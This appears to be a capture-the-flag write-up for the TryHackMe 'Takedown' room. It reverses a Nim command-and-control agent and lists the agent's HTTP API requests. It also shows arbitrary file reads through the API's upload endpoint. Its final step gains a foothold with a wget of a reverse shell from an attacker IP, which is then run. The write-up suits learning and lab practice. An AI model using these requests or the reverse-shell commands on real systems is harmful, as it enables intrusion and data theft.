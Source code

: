 # Takedown

https://tryhackme.com/room/takedown

Rated "INSANE"

- the server exposes port 22 and 80
- on the site, the favicon.ico is a windows binary. Additionally, under /images is shuttlebug.jpg.bak (an IoC according to the rooms intro) which is also a binary. These are the same program, for windows and linux.

Which binary you reverse doesn't matter so much, as much as what it does. Opening them with Ghidra shows they are nim binaries, which is a bit tricky to reverse but still possible.

- the entry point is the function `NimMainModule`
- it checks two flags, -v and -h. -h prints a short help message, while -v is presumably 'verbose', as its checked throughout the program before a message is printed telling you what the program is doing
- first thing it does is run `whoami`, checking the response against a hardcoded username `c.oberst`, as the 'keyed username'. if this fails the program exits
- next it runs the `hostname` command, and stores the result
- after that, in initial_check_in__main, it makes an api request with the hostname given. this is to `http://takedown.thm.local/api/agents/register`, with the user-agent `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5` and content type `application/json`. the content sent is `{"uid":"","hostname":""}` with the uid looking like a random string, and the hostname taken from above

  sending a request like:
  
  ```
  POST /api/agents/register HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 43

  {"uid":"fakeuid","hostname":"fakehost"}
  ```
  
  can be seen to respond with:
  
  ```
  New agent UID: fakeuid on host fakehost
  ```

- once registered, it enters a loop. this makes a call (in `check_for_commands__main`) to `http://takedown.thm.local/api/agents/[UID]/command` (with the useragent from before)

  this can be seen with
  
  ```
  GET /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close

  ```
  
  which responds with values like
  
  - `upload bar.txt foo.txt`
  - `id`
  - `whoami`
  - `hostname`
  - `pwd`

- when it receives a command, this is passed to `command_handler__main`, which splits the command on spaces. there are only a fixed number of commands, of which the most interesting are `upload` and `download`. the command is run and then the result returned to main
- once run, the results are sent back to the command api handler as a post request, with the value in a results parameter:

  ```
  POST /api/agents/fakeuid/command HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 25

  {"results":"fakeresult"}
  ```

  comes back with `OK`
  
- the upload command appears to mean upload a file from the server to the host:

  ```
  POST /api/agents/fakeuid/upload HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 22

  {"file":"bar.txt"}


  ```
  
  this responds with this file from the server. the path is straight interpreted: /etc/passwd works to grab that file
  
- download copies to the server, passing a payload like `{"file":"","data":""}`:

  ```
  POST /api/agents/fakeuid/download HTTP/1.1
  Host: takedown.thm.local
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
  Connection: close
  Content-Type: application/json
  Content-Length: 45

  {"file":"test.txt",
  "data":"dGVzdA=="
  }


  ```
  
  its unclear where this data lands
  
- to proceed, use the reader api to find the api code. this can be done by reading proc cmdline args, e.g. /proc/0/cmdline. One of these will be the app, and reveal the file being run is app.py. Opening this will show the site code.

- teamserver.log will list whats been going on, and can reveal the other agent uids (this can also be retrieved from /api/agents)
- /api/server/exec will run an arbitrary 'cmd' on the server
- /api/agents/UID/exec will set the next 'cmd' the agent should run - note this is from the set list of commands

- to get a foothold, I sent a cmd to the www-infinity client, `exec wget attacker-ip:1234/revshell` and then `exec chmod +x revshell && ./revshell`
